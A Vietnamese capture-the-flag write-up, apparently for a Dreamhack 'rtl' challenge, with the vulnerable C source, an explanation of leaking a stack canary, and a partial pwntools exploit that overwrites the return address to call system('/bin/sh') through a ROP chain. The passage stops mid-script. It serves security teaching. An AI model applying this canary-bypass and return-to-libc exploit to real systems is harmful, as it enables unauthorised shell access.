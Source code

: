 ```c 
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
- Như bài đã gợi ý thì đầu tiên ta cần leak canary vì bài này canary được bật sau đó overwrite để gọi `system(/bin/sh)` vì bài này file thực thi đã cho sẵn `/bin/sh` và có `system@plt`
![image](https://hackmd.io/_uploads/HkHypbgKC.png)
- Trên `rbp` đó chính là giá trị canary, vì giá trị này thay đổi động nên ta cần leak để lần nhập sau đó có thể bypass qua canary 
- Ta thấy byte cuối của canary luôn bằng 0x00 nên ta có thể leak canary mà không làm thay đổi giá trị bằng cách nhập thêm 1 byte để overwrite vào canary sau để lệnh `prinf` sẽ in giá trị canary với byte cuối là giá trị hex của kí tự được chèn vào
- Sau khi leak ta cần đổi byte cuối thành `0x00`
- Sau đó lần nhập sau ta có thể overwrite địa chỉ trả về để gọi `system(/bin/sh)`
![image](https://hackmd.io/_uploads/HJpZRWlYC.png)
![image](https://hackmd.io/_uploads/H1DzRZlYR.png)
## Script
```python=
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./rtl',checksec=False)

#p = process(exe.path)
p = remote('host1.dreamhack.games', 24332)

pop_rdi = 0x0000000000400853
ret = 0x0000000000400285

payload = b'A'*57

p.recvuntil(b"Buf: ")
input()
p.send(payload)

p.recvuntil(payload)

canary = u64(b"\x00" + p.recvn(7))
log.info(hex(canary))

binsh = next(exe.search(b'/bin/sh'))

payload = flat(
    b'A'*56,
    canary,
    b'A'*8,
    pop_rdi, binsh,
```